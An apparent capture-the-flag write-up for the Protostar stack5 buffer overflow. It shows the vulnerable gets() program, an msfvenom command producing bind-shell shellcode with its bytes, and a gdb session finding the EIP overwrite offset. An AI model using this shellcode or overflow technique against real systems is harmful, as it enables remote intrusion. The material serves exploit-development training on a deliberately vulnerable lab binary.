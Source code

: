 ```lang-clike line-numbers 
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

So its basically the same program than stack4 but this time they ask us to use a shellcode. Im not a shellcode writer so I will be using msf to generate a valid shellcode for this architecture:

```lang-bash line-numbers 
alvaro@winterfell /u/l/s/metasploit-framework> ./msfvenom -p linux/x86/shell_bind_tcp -b '\x0d\x0a\x00\xff' -f pl
[*] x86/shikata_ga_nai succeeded with size 105 (iteration=1)
my $buf =
"\xbd\x9b\x77\x1c\xf3\xdd\xc0\xd9\x74\x24\xf4\x5b\x29\xc9" .
"\xb1\x14\x31\x6b\x14\x83\xeb\xfc\x03\x6b\x10\x79\x82\x2d" .
"\x28\x8a\x8e\x1d\x8d\x27\x3b\xa0\x98\x26\x0b\xc2\x57\x28" .
"\x37\x55\x3a\x40\xca\x69\xab\xcc\xa0\x79\x9a\xbc\xbd\x9b" .
"\x76\x5a\xe6\x96\x07\x2b\x57\x2d\xbb\x2f\xe8\x4b\x76\xaf" .
"\x4b\x24\xee\x62\xcb\xd7\xb6\x16\xf3\x8f\x85\x66\x42\x49" .
"\xee\x0e\x7a\x86\x7d\xa6\xec\xf7\xe3\x5f\x83\x8e\x07\xcf" .
"\x08\x18\x26\x5f\xa5\xd7\x29";
```

We will be using a large payload that is bigger than our buffer so we have toplace it in a different location like a environment variable. We can also check how many bytes we can overwrite after passing **EIP**

```lang-bash line-numbers 
user@protostar:~$ echo `python -c 'print("A"*76 + "B"*4 + "C"*120)'` > stack5
user@protostar:~$ gdb -q /opt/protostar/bin/stack5Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < stack5
Starting program: /opt/protostar/bin/stack5 < stack5

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) x/10s $esp
0xbffff7c0:	 'C' <repeats 120 times>
0xbffff839:	 ""
0xbffff83a:	 ""
0xbffff83b:	 ""
0xbffff83c:	 "1\203\004\b\304\203\004\b\001"
0xbffff846:	 ""
0xbffff847:	 ""
0xbffff848:	 "d\370\377\277\360\203\004\b\340\203\004\b@\020\377\267\\\370\377\277\370\370\377\267\001"
0xbffff862:	 ""
0xbffff863:	 ""
(gdb)
```
